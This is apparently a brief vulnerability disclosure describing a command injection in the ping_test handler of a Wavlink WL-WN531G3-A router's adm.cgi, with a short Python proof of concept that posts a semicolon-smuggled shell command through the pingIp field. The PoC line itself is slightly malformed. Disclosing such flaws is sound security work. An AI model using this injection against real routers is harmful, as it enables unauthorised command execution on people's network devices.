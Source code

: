 # command injection

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a command injection in adm.cgi/ping_test

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:

![](4.png)

get value from pingIp, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'ping_test', 'pingIp': + payload})
```
